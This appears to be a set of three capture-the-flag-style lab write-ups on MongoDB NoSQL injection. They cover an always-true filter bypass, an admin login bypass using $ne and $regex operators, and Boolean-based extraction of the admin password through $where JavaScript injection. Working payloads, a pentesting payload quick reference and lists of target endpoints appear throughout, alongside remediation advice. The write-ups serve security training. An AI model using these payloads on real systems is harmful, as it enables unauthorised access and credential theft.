



# 🧪 **Lab-1 Write-Up — NoSQL Injection in Category Filter (MongoDB)**  
*Releasing Unreleased Products via Always-True JavaScript Injection*

---

## 🔹 **One-Line Summary**

Exploiting a MongoDB NoSQL injection in the category filter by injecting JavaScript boolean logic, bypassing the release-status check, and revealing all unreleased products.

---

## 🔹 **What Is This Topic?**

This lab demonstrates **NoSQL Injection** in **MongoDB**, where user input is inserted directly into a JavaScript expression such as:

```json
this.category == '<input>'
```

If the application does not sanitize input, attackers can inject:

- `'` to break syntax  
- `&&` / `||` for logic manipulation  
- `1==1` for always-true conditions  
- `%00` to terminate execution  

This allows bypassing filters, revealing hidden data, or even authentication bypass if misused in login queries.

---

## 🔹 **Real-World Scenario**

This vulnerability appears in real production stacks using:

- Node.js + Express  
- MongoDB / Mongoose  
- Search / filter endpoints  
- JSON / category selectors  
- E-commerce sites hiding unreleased items  

Typical risks:

- Viewing unreleased/hidden products  
- Bypassing visibility filters  
- Extracting admin-only products  
- Full auth bypass when injected into login queries  

Developers mistakenly think “NoSQL is injection-proof” — this lab proves it's not.

---

## 🔹 **High-Value Endpoints to Test**

1. **Category / Filter / Search Parameters**  
   `?category=`, `?search=`, `?filter=`

2. **Login / Authentication JSON Bodies**

3. **REST API Endpoints Accepting JSON**

4. **Visibility / Release Filters**  
   Fields like `released`, `visible`, `isPublic`.

---

## 🔹 **Lab Walkthrough (Step-by-Step)**

### **1️⃣ Capture the category request**
Open a category → Intercept in Burp → Send to Repeater.

---

### **2️⃣ Test for syntax injection**
Payload:
```json
Gifts'
```

➡ Breaks the query → **Confirms JavaScript expression injection.**

---

### **3️⃣ Restore valid syntax to verify controlled injection**
Payload:
```json
Gifts'+'
```

**(URL-encode with Ctrl+U)**  
➡ No error → **Server executes injected JavaScript safely.**

---

### **4️⃣ Test boolean-based NoSQL logic injection**

#### ❌ False condition:
```json
Gifts' && 0 && 'x
```
➡ No products → **False condition applied.**

#### ✔ True condition:
```json
Gifts' && 1 && 'x
```
➡ Products return → **True condition manipulated backend logic.**

---

### **5️⃣ Inject always-true condition to bypass release filter**

Payload:
```json
Gifts'||1||'
```
(Then URL-encode)

Backend becomes:
```json
this.category == 'Gifts' || 1
```

➡ Always TRUE → **All products revealed, including unreleased ones.**

---

### **6️⃣ View results in browser**
Right-click response → **Show response in browser**  
➡ Unreleased products visible  
➡ **Lab solved**

---

## 📸 **Evidence**

5️⃣ **Screenshot — Final always-true NoSQL payload (unreleased products revealed)**  


---

## 🔹 **Troubleshooting**

| Problem | Reason | Fix |
|--------|--------|-----|
| Syntax error | Broken JS expression | Balance quotes |
| True/false same | Not URL-encoded | Select payload → Ctrl+U |
| App rejects input | JSON parsing | Escape correctly |
| No unreleased items | Wrong category | Re-check spelling |

---

## 🔹 **Remediation (Defense)**

- ❌ Never concatenate user input into MongoDB queries  
- ✔ Use **parameterized** queries / safe builders  
- ✔ Validate input using **JSON schema**  
- ✔ Sanitize `'`, `"`, `&&`, `||`  
- ✔ Disable JavaScript evaluation inside queries  
- ✔ Avoid dynamic property access  
- ✔ Enforce allow-list categories  
- ✔ Don’t return unreleased data even if filters fail  

---

# 🔥 **LAB-2 WRITE-UP — MongoDB Operator Injection (Login Bypass)**  

---

## 🔹 **ONE-LINE SUMMARY**

MongoDB Operator Injection used to bypass authentication by inserting `$regex` and `$ne` operators into the JSON login fields, allowing login as **administrator without knowing the password**.

---

## 🔹 **WHAT IS THIS TOPIC ABOUT?**

This lab demonstrates **NoSQL Operator Injection** — when user-controlled JSON is passed directly into a database query:

```js
db.users.findOne({ username: input.username, password: input.password })
```

If the application does **not sanitize** nested objects, attackers can insert:

- `$ne` → *not equal*
- `$regex` → *match by regex*
- `$in`, `$gt`, `$lt` → *comparison operators*
- `$where` → *JavaScript execution*

This allows:

✔ Login bypass  
✔ Selecting specific users  
✔ Privilege escalation  
✔ Stealing admin sessions  
✔ Complete authentication takeover  

---

## 🔹 **REAL-WORLD SCENARIO**

This vulnerability is extremely common in:

- Node.js + Express + MongoDB apps  
- JSON-based login APIs  
- Mobile backends (Android/iOS)  
- GraphQL resolvers  
- MERN stack projects  
- MongoDB Atlas-hosted apps  
- Student projects & startups  

Common developer mistake:

```js
const user = await users.findOne(req.body);
```

If `req.body` contains operators → attacker fully controls the query.

High-risk real cases:

✔ Banking mobile apps  
✔ E-commerce panels  
✔ Admin dashboards  
✔ Social apps  
✔ Authentication microservices  

---

## 🔹 **HIGH-VALUE ENDPOINTS TO TEST**

### 1. **Login endpoints**  
```
POST /login
POST /auth
POST /api/user/auth
/sessions
username
password
email
reset-token
/validate-username
/search
filter
?category=
```

### 2. **User lookup / verify endpoints**  
```
POST /api/user/find
POST /check-username
```

### 3. **JSON-driven search APIs**

Especially where data is used as filters.

### 4. **GraphQL login mutations**

They often pass JSON straight into MongoDB.

---

## 🔹 **HOW THE ATTACK WORKS**

1. Send JSON fields normally  
2. Replace values with objects → `{"$ne":""}`  
3. If login succeeds → operator injection confirmed  
4. Use regex to force **admin** selection  
5. Set password as `$ne` to bypass password check  
6. Server logs attacker in as admin  

MongoDB always returns the *first matching user*, which is often **administrator**.

---

## 🔹 **LAB WALKTHROUGH — EXACT STEPS**

### **STEP 1 — Capture login request**

Login with:

```
username: wiener
password: peter
```

Send POST request to **Repeater**.

---

### **STEP 2 — Test operator injection on username**

Replace:

```json
"username":"wiener"
```

with:

```json
"username":{"$ne":""}
```

➡ ✔ Successful login  
➡ Confirms username field is vulnerable

---

### **STEP 3 — Test second operator: regex**

Inject:

```json
"username":{"$regex":"wien.*"}
```

➡ ✔ Works  
➡ Confirms server parses regex operators

---

### **STEP 4 — Test password operator**

Set:

```json
"password":{"$ne":""}
```

➡ ✔ Login succeeds  
➡ Both fields are vulnerable

---

### **STEP 5 — Final exploit → Log in as ADMIN**

Use this payload:

```json
{
  "username":{"$regex":"admin.*"},
  "password":{"$ne":""}
}
```

➡ ✔ Backend selects the admin account  
➡ ✔ Password comparison bypassed  
➡ ✔ Logged in as administrator  

---

### **STEP 6 — Open session in browser**

Right-click → *Show response in browser*  
Copy URL → Open in Burp → Login confirmed  

Lab solved.

---

## 🔹 **TROUBLESHOOTING**

| Problem | Cause | Fix |
|--------|-------|-----|
| Login fails | Invalid JSON | Close braces properly |
| Operator ignored | Server expects string only | Ensure JSON body, not form data |
| Regex does not match | Incorrect pattern | Use `"admin.*"` |
| Nothing changes | Payload not parsed | Content-Type must be `application/json` |

---

## 🔹 **COMMON PAYLOADS (Real Pentesting)**

### **Login bypass**
```json
{"username":{"$ne":""},"password":{"$ne":""}}
```

### **Login as admin**
```json
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

### **Enumerate all usernames**
```json
{"username":{"$regex":".*"}}
```

### **Prefer admin (first match)**
```json
{"role":{"$ne":"user"}}
```

---

## 🔹 **REMEDIATION (DEFENSE)**

1. Strict schema validation (Zod / Joi)  
2. Reject nested JSON in sensitive fields  
3. Convert input → strings only  
4. Disable parsing of `$ne`, `$regex`, `$where` etc.  
5. Hash passwords (bcrypt)  
6. Avoid passing user JSON into DB queries  
7. Use allow-lists  
8. Enforce secure authentication rules  
9. Sanitize JSON before DB processing  

---

# 📸 **EVIDENCE — Final Payload Screenshot**

### **Screenshot — Operator Injection Admin Login (Final Payload)**  


Shows successful login after applying:

```json
{
  "username":{"$regex":"admin.*"},
  "password":{"$ne":""}
}
```

---

# 🔰 LAB: MongoDB $where JavaScript Injection — Boolean-Based Admin Password Extraction

## 🔹 ONE-LINE SUMMARY

MongoDB JavaScript Injection via the `$where` operator, allowing Boolean-based password extraction (length + characters) and full admin takeover using a server-side JavaScript oracle.

---

## 🔹 WHAT IS THIS TOPIC ABOUT?

This lab demonstrates **NoSQL JavaScript Injection** inside the `$where` clause.

MongoDB allows execution of JavaScript such as:

- `this.password.length`
- `this.password[i]`
- `this.username == 'admin'`
- Boolean expressions `&&`, `||`

If user input is placed inside:

```json
"$where": "this.username == '" + user + "'"
```

then attacker input like:

```json
wiener' && '1'=='1
```

breaks the string → injects JavaScript → turns the lookup endpoint into a Boolean oracle.

Using this, attackers can extract:

- Password length  
- Password characters one-by-one  
- Sensitive fields in documents  
- Administrator credentials  

---

## 🔹 REAL-WORLD SCENARIO

This is extremely common in:

- Node.js + Express + MongoDB apps  
- MERN stack startups  
- Mobile app backends (React Native, Flutter with MongoDB Atlas)  
- Search / lookup APIs that use `$where`  
- Legacy codebases using "string-concatenated" filters  

A single quote `'` often breaks the JS string and gives direct logic injection.

This exact vulnerability appears in:

- Banking mobile apps using MongoDB  
- University management systems  
- E-commerce product search APIs  
- Poorly written freelance MERN projects  
- Admin dashboards with lookup features  

---

## 🔹 HIGH-VALUE ENDPOINTS TO TEST

Only test endpoints that perform **lookup**, **filter**, or **search**:

- `/user/lookup?user=...`
- `/api/users/find?username=...`
- `/login`
- `/profile?id=...`
- `/search?username=...`

Signs of JavaScript injection risk:

- Backend uses `$where`
- lookup responses change on TRUE/FALSE conditions
- URL errors when `'` is added
- CPU spike on the server (JS evaluation is heavy)

---

## 🔹 HOW THIS ATTACK WORKS (CORE LOGIC)

1. Insert `'` to break out of string  
2. Insert JS logic:
   ```json
   ' && <boolean> || '
   ```
3. Control TRUE/FALSE responses  
4. Use responses to build a Boolean oracle  
5. Determine password length  
6. Extract characters using indexed access  
7. Compile full password  
8. Log in as admin  

MongoDB returns a document **only if the injected JS evaluates TRUE**.

---

## 🔹 EXACT LAB WALKTHROUGH (OFFICIAL SOLUTION FLOW)

### 1. Log in normally  
   Use:
   - username: `wiener`
   - password: `peter`

Capture the request.

---

### 2. Intercept lookup request  
Go to:
```json
GET /user/lookup?user=wiener
```
Send to Repeater.

---

### 3. Confirm injection  
Send:
```json
wiener'
```
If error appears → injection confirmed.

---

### 4. Test safe JavaScript execution  
Payload:
```json
wiener'+'
```
URL-encode it.

If response still returns valid user info → backend executes JS.

---

### 5. Build Boolean oracle  
FALSE test:
```json
wiener' && '1'=='2
```

TRUE test:
```json
wiener' && '1'=='1
```

If TRUE returns profile → oracle confirmed.

---

### 6. Extract admin password length  
Test progressively:

```json
administrator' && this.password.length < 30 || 'x'=='x
administrator' && this.password.length < 20 || 'x'=='x
administrator' && this.password.length < 10 || 'x'=='x
administrator' && this.password.length < 9  || 'x'=='x   → TRUE
administrator' && this.password.length < 8  || 'x'=='x   → FALSE
```

Password length = **8**.

---

### 7. Extract each character using Intruder (Boolean-based)  

Template:

```json
administrator' && this.password[§0§]=='§a§
```

Configure:

- Position 1 → index `0–7`
- Position 2 → characters `a–z0–9!@#$%^&*`
- Attack type → Cluster Bomb

The TRUE response is the correct character.

Repeat for all 8 indices → reconstruct full admin password.

---

### 8. Log in as admin  
Use:

```json
administrator : <extracted_password>
```

Lab solved.

---

## 🔹 SCREENSHOT PLACEHOLDER

📸 SS #1 — Intruder brute-forcing admin password  


---

## 🔹 COMMON PAYLOADS (QUICK REFERENCE)

Check injection:
```json
wiener'
```

Boolean oracle:
```json
wiener' && '1'=='1
```

Password length check:
```json
administrator' && this.password.length < 10 || 'a'=='a
```

Specific character check:
```json
administrator' && this.password[3]=='r' || 'a'=='a
```

---

## 🔹 REMEDIATION / DEFENSES

1. **Never** allow user input inside a `$where` clause.  
2. Disable MongoDB server-side JavaScript.  
3. Enforce strict schema validation (Zod/Joi).  
4. Reject nested objects and operators.  
5. Use safe queries:
   ```json
   db.users.find({ username: input })
   ```
   NOT:
   ```json
   db.users.find({ $where: "this.username=='" + input + "'" })
   ```

6. Minimal privilege roles.  
7. Don’t expose sensitive fields in lookup routes.  

---
